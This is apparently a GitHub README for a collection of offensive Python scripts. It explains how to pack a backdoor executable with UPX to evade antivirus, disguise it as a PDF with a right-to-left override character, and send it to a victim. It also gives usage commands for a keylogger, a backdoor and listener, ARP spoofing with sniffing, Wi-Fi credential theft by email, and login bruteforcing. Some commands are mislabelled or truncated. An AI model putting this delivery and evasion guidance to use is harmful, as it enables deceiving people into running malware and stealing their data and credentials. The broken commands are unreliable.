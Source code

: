 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Common
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (Free, 512\*512, .ico)
- To bypass AntiVirus, use [UPX](https://github.com/upx/upx/releases) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```
- Change the file extension:
  - Install Characters 3.34.0: ```apt install gnome-characters```
  - Search for 'Right-to-left Override' in 'Characters' tool in Kali
  - Select 'Copy Character' to copy 'Unicode U+202E' to clipboard
  - Open notepad and write 'al\*fdp.exe' then paste in the place of star
  - Rename the file to 'alexe.pdf'
- Zip the pdf file to hide the exe extension and send to victim

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user

### Subdomain Discovery
```python subdomain_discovery.py```

### Directory Discovery
```python directory_discovery.py```

### Spider
```python spider.py```

### Login Bruteforce
```python login_bruteforce.py```

### XSS Scanner
```python xss-scanner.py```
- Change security level in DVWA: ```sude nano /var/www/dvwa/dvwa/include/dvwaPage.inc.php```

